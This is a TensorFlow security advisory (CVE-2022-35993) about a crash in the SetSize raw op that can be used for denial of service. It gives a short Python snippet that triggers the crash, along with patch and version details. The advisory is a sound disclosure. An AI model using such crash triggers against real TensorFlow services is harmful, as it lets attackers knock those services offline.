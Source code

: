 ## TFSA-2022-127: `CHECK` fail in `SetSize`

### CVE Number
CVE-2022-35993

### Impact
When `SetSize` receives an input `set_shape` that is not a 1D tensor, it gives a `CHECK` fails that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
arg_0=1
arg_1=[1,1]
arg_2=1
arg_3=True
arg_4=''
tf.raw_ops.SetSize(set_indices=arg_0, set_values=arg_1, set_shape=arg_2,
                   validate_indices=arg_3, name=arg_4)
```

### Patches
We have patched the issue in GitHub commit [cf70b79d2662c0d3c6af74583641e345fc939467](https://github.com/tensorflow/tensorflow/commit/cf70b79d2662c0d3c6af74583641e345fc939467).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
